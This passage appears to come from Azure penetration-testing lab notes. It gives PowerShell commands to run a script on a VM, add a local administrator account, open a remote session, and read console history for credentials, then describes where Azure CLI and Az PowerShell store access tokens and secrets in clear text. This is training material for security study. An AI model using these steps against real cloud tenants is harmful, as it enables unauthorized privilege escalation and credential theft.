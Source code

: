 #### Check role assignments on the VM
```
Get-AzRoleAssignment -Scope <RESOURCE ID>
```

#### Check the allowed actions of the role definition
```
Get-AzRoleDefinition -Name "<ROLE DEFINITION NAME>"
```

#### Run a command on the VM
```
Invoke-AzVMRunCommand -VMName <VM NAME> -ResourceGroupName <NAME> -CommandId 'RunPowerShellScript' -ScriptPath '<PATH TO .ps1 FILE>' -Verbose
```

#### Contents of adduser.ps1
```
$passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
New-LocalUser -Name <USER> -Password $passwd
Add-LocalGroupMember -Group Administrators -Member student38
```

#### Access the VM
```
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USER>', $Password)
$sess = New-PSSession -ComputerName 20.52.148.232 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
```

#### Check for credentials in powershell history (Try other ways to tho!)
```
cat C:\Users\bkpadconnect\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

## Getting credentials
### Stealing tokens
#### Stealing tokens from az cli
- az cli stores access tokens in clear text in ```accessTokens.json``` in the directory ```C:\Users\<username>\.Azure```
- We can read tokens from the file, use them and request new ones too!
- azureProfile.json in the same directory contains information about subscriptions. 
- You can modify accessTokens.json to use access tokens with az cli but better to use with Az PowerShell or the Azure AD module.
- To clear the access tokens, always use az logout

#### Stealing tokens from az powershell
- Az PowerShell stores access tokens in clear text in ```TokenCache.dat``` in the directory ```C:\Users\<username>\.Azure```
- It also stores ServicePrincipalSecret in clear-text in AzureRmContext.jsonif a service principal secret is used to authenticate. 
- Another interesting method is to take a process dump of PowerShell and looking for tokens in it!
- Users can save tokens using Save-AzContext, look out for them! Search for Save-AzContext in PowerShell console history!
- Always use Disconnect-AzAccount!!
